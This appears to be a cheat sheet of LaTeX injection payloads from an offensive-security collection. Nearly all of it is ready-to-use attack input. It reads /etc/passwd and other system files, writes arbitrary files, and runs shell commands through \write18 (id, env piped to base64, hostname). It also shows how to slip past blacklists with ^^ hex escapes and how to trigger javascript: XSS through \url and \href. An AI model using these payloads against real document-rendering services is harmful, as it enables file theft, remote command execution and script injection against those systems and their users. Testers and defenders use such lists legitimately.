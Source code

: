 # LaTex Injection

You might need to adjust injection with wrappers as `\[` or `$`.

## Read file

Read file and interpret the LaTeX code in it:

```tex
\input{/etc/passwd}
\include{somefile} # load .tex file (somefile.tex)
```

Read single lined file:

```tex
\newread\file
\openin\file=/etc/issue
\read\file to\line
\text{\line}
\closein\file
```

Read multiple lined file:

```tex
\lstinputlisting{/etc/passwd}
\newread\file
\openin\file=/etc/passwd
\loop\unless\ifeof\file
    \read\file to\fileline
    \text{\fileline}
\repeat
\closein\file
```

Read text file, **without** interpreting the content, it will only paste raw file content:

```tex
\usepackage{verbatim}
\verbatiminput{/etc/passwd}
```

If injection point is past document header (`\usepackage` cannot be used), some control 
characters can be deactivated in order to use `\input` on file containing `$`, `#`, 
`_`, `&`, null bytes, ... (eg. perl scripts).

```tex
\catcode `\$=12
\catcode `\#=12
\catcode `\_=12
\catcode `\&=12
\input{path_to_script.pl}
```

To bypass a blacklist try to replace one character with it's unicode hex value. 
- ^^41 represents a capital A
- ^^7e represents a tilde (~) note that the ‘e’ must be lower case

```tex
\lstin^^70utlisting{/etc/passwd}
```

## Write file

Write single lined file:

```tex
\newwrite\outfile
\openout\outfile=cmd.tex
\write\outfile{Hello-world}
\write\outfile{Line 2}
\write\outfile{I like trains}
\closeout\outfile
```

## Command execution

The output of the command will be redirected to stdout, therefore you need to use a temp file to get it.

```tex
\immediate\write18{id > output}
\input{output}
```

If you get any LaTex error, consider using base64 to get the result without bad characters (or use `\verbatiminput`):

```tex
\immediate\write18{env | base64 > test.tex}
\input{text.tex}
```

```tex
\input|ls|base64
\input{|"/bin/hostname"}
```

## Cross Site Scripting

From [@EdOverflow](https://twitter.com/intigriti/status/1101509684614320130) 

```tex
\url{javascript:alert(1)}
\href{javascript:alert(1)}{placeholder}
```

Live example at `http://payontriage.com/xss.php?xss=$\href{javascript:alert(1)}{Frogs%20find%20bugs}$`

## References

* [Hacking with LaTeX - Sebastian Neef - 0day.work](https://0day.work/hacking-with-latex/)
* [Latex to RCE, Private Bug Bounty Program - Yasho](https://medium.com/bugbountywriteup/latex-to-rce-private-bug-bounty-program-6a0b5b33d26a)
* [Pwning coworkers thanks to LaTeX](http://scumjr.github.io/2016/11/28/pwning-coworkers-thanks-to-latex/)
